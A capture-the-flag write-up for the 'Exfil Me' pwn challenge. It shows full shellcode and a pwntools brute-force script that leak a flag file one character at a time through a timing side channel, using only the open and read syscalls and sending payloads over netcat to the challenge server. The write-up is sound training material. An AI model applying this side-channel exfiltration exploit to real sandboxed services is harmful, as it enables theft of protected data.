 # Exfil Me
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
```
placeholder - problem hidden
```

## Solution
We get to run our own shellcode at `0x13371337000`. Sweet! Unfortunately, we can only use the `read`, `open`, and `exit` syscalls, so there appears to be no way to get us the flag. However, we can rely on a timing attack - in which we can guess the flag character by character, and pause for a long time if our guess is correct. Then, if our script runs for a long time, we know that our guess is correct. For example, if I guess that character 0 of the flag is 'F' (which is wrong), the program exits immediately. If instead, I guess 'C' (correct), the program should hang.

To do this, I tried to hang the program using an infinite loop, but that crashed the instance and the only way to fix it was to restart it. Instead, I settled for a for loop with 1 billion iterations - which takes well over 2 seconds to complete.

However, a typical for loop uses labels to determine where to jump to, something unavailable in shellcode.
```
label:
 cmp i, n                    ; compare i and n
 jge end_of_loop             ; jump if i >= n
 do stuff
 jmp label                   ; jump to start of loop
end_of_loop:
 do stuff
```
 
To overcome this absolute catastrophe, I had to use `cmov` (similar to `int a = condition ? 0 : 10000`) and store the starting address of the loop in a register, because our code is always loaded at `0x13371337000`.

The code would then look something like this:
```
mov rdx, 0
mov rcx, 1000000000     ; loop iterations
cmp byte[rax], bl       ; compare our guess against the flag
cmovne rcx, rdx         ; set 0 loop iterations if our guess != the right char
mov r12, 0x13371337067  ; the starting address of the loop
dec rcx                 ; i-- (aka the start of the loop)
cmp rcx, 0              ; compare rcx against 0
cmovle r12, rdx         ; if rcx <= 0 then set r12 to 0 (out of bounds memory, will crash when we jump)
jmp r12                 ; jump to r12 (start of loop) or 0 (if i <= 0), crashing the program
```

The rest of the code before this is to read the flag and set rax = address of character we're comparing, and bl = character we're guessing.


```as
main:
 mov eax, 2;                        syscall = open
 xor ebx, ebx;                      push("flag.txt\x00")
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;                      param1 = "flag.txt"
 xor esi, esi;                      param2 = 0 ("r")
 xor edx, edx;                      param3 = 0 ("r")
 syscall                            int fd = open("flag.txt", "r", "r");
 mov rdi, rax;                      param1 = fd
 xor eax, eax;                      syscall = read
 mov rsi, 0x1337133a000;            param2 = &buf (0x1337133a000, known safe location)
 mov edx, 32;                       param3 = 32
 syscall;                           read(fd, &buf, 32)
 mov r12d, 0;                       $r12 = loop iterations if wrong character (0)
 mov r13d, 1;                       idk this was useless
 mov r14d, 0;                       $r14 = 0
 mov r15d, 1000000000               $r15 = loop iterations if correct character
 mov rax, 0x13371337070;            points to start of for loop
 mov rcx, rax;                      $rcx = start of for loop
 mov rax, 0x1337133a000;            $rax = &buf (from earlier)
*add rax, $index                    $rax = &buf[index]
*mov ebx, $char                     $rbx = char we're testing for
 cmp byte[rax], bl                  if (buf[index] == char we're testing for)
 cmovne r15, r12                        $r15 = 0 (loop zero times)
 dec r15                            for (int i = $r15;; i--) {
 cmp r15, 0                             if (i <= 0)
 cmovle rcx, r14                            $r14 = 0 (crash once we jump)
 jmp rcx                            }
```

The two lines marked with a star need to change between guesses, but all the other lines are identical.

```py
from pwn import *

context.arch = 'amd64'

shellcode = """
 mov eax, 2;
 xor ebx, ebx;
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;
 xor esi, esi;
 xor edx, edx;
 syscall
 mov rdi, rax;
 xor eax, eax;
 mov rsi, 0x1337133a000;
 mov edx, 32;
 syscall;
 mov r12d, 0;
 mov r13d, 1;
 mov r14d, 0;
 mov r15d, 1000000000;
 mov rax, 0x13371337070;
 mov rcx, rax;
 mov rax, 0x1337133a000;"""

template = asm(shellcode)

"""
 cmp byte[rax], bl
 cmovne r15, r12
 dec r15
 cmp r15, 0
 cmovle rcx, r14
 jmp rcx
"""
template2 = b'\x38\x18\x4d\x0f\x45\xfc\x49\xff\xcf\x49\x83\xff\x00\x49\x0f\x4e\xce\xff\xe1'

flag = ""
import subprocess
import time
import sys
for index in range(len(flag), 32):
    for char in range(33, 126):
        print(flag + chr(char))
        pay = template + asm(f"add rax, {index}; mov ebx, {char}") + template2
        with open('in', 'wb') as f:
            f.write(pay + b'\n')
        try:
            subprocess.run("cat in | nc 15f728c.0x16.ink 30486", shell=True, timeout=2)
        except subprocess.TimeoutExpired:
            flag += chr(char)
            print("New char: " + flag)
            if chr(char) == '}':
                print("We found the flag!")
                sys.exit(0)
            time.sleep(6)
            break
        if char == 125:
            print("Uh oh, error")
            sys.exit(1)
```

This builds the shellcode and sends it to the server, guessing every character in every position. If we guess the right character, the subprocess timeout will kick in, causing a TimeoutExpired exception that we can catch. Then, we append it to the flag and pause for 6 seconds to allow the program to finish looping and crash before we start guessing again.

There is one small problem though - character 10 can't be guessed because `add rax, 10` adds a newline in our input, causing fgets to cut off the rest of our input. So at index 10, I had to stop the program, set the flag variable to the first 9 characters + a placeholder, and then continue running the program. By doing this, I hoped the flag contained some recognizable text that we can use to fill in character 10. If that wasn't possible, the shellcode could be modified without too much hassle for this special case, by doing something like setting rax to `0x13371337071` instead of `0x13371337070` and then only adding 9 instead of 10.

```
CTF{Ever_h_ard_of_BROP?}
We found the flag!
```

At this point, it's pretty obvious that the missing character is `e`.

Flag: `CTF{Ever_heard_of_BROP?}`
